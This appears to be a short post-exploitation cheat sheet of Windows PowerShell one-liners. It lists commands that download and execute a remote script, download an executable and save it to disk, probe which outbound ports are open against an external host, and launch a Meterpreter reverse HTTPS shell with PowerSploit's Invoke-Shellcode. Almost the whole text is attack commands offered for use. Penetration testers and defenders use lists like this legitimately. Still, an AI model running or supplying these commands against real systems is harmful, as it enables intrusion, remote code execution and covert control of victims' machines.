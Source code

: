 # Windows Powershell Commands and Scripts for Post Exploitation

One liners
-----------

**Download and Execute Remote Powershell Script**

```PowerShell
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```PowerShell
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024**

```PowerShell
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```PowerShell
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```